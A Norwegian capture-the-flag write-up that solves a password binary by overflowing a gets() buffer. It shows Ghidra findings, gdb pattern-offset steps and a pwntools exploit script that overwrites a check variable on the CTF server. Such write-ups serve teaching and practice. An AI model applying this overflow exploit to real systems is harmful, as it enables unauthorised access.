 # Taskname
> Author: Mx. Task

## Challenge

## Solution

Importerer binary i Ghidra, ser at enn bruker `gets()` for å hente passordet. Det gjøres en sjekk at `local_18` må være en annen verdi, men den er statisk i koden, så denne må vi overskrive selv.
Deretter et `strncmp()` av brukerdata mot hardkodet passord `sikkerhet`.

![passordvelvet_ghidra.png](passordvelvet_ghidra.png)

```bash
pip install pwntools
```

Bruker `checksec` for å sjekke begrensninger på binæren, finner ingen relevante for oss nå.

![passordvelvet_checksec.png](passordvelvet_checksec.png)


For å finne offset til `local_18`, kan enn bruke `gdb` med GEF.
```
disass main
```
og vi kan se compare av `local_18` og fastsatt verdi er
```asm
mov rax, 0x646167656e
cmp QWORD PTR [rbp-0x0], rax
```
på linje `main+188`

```
break *(main+188)
pattern create
r
<paste pattern>
```
når programmet treffer breakpoint, finn offset med
```
pattern offset $rbp-0x10
```

```python
#!/usr/bin/env python3
from pwn import *
io = connect('ctf.uiactf.no', 4001)
payload = b'sikkerhets\0'
payload += b'A'*(48-len(payload))
payload += p64(0x646167656e)
io.sendlineafter(b'passordet: ', payload)
print(io.recvall(timeout=1).decode())
```

